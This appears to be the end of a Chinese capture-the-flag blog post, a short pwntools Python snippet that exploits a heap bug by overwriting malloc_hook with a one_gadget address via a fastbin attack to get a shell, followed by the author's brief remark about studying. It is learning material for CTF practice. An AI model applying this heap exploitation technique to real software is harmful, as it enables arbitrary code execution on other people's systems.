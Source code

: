 ```python
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,'/bin/sh\x00'+'a'*0x58)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)

p.interactive()
```

我真的好菜...一个知识点要看好多好多遍...还忘得快，可以睡觉了，要开始看书了。
